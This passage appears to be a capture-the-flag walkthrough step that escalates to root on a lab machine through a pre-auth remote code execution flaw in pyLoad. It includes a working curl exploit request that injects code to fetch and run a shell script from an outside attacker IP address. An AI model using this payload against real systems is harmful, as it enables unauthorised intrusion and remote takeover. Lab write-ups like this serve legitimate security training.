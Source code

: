 <figure><img src="../../.gitbook/assets/image (3) (10) (1).png" alt=""><figcaption></figcaption></figure>

This software had a recent RCE vulnerability found within it.

{% embed url="https://security.snyk.io/vuln/SNYK-PYTHON-PYLOADNG-3230895" %}

We can check the version within the machine to confirm that it is vulnerable:

```bash
sau@pc:/opt/app$ pip list | grep "pyload"
pyload-ng              0.5.0b3.dev30
```

We can find a PoC here:

{% embed url="https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad" %}

We can simply change the command executed to give us a root shell:

{% code overflow="wrap" %}
```bash
$ curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"curl%2010.10.14.39/shell.sh|bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (4) (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
